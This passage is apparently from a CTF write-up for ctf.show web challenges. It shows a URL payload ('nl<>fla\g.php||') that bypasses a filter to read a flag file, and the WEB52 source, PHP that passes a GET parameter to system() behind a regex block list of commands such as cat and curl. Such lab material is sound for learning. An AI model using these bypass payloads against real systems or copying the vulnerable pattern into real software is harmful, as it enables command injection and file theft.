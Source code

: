 ```
http://8001153d-c69b-4aae-a44e-2bd8a5af2c4c.challenge.ctf.show/?c=nl<>fla\g.php||
```

<figure><img src="../.gitbook/assets/image (24) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

## <mark style="color:blue;background-color:orange;">（24）WEB52</mark>

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:50:30
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
} 
```
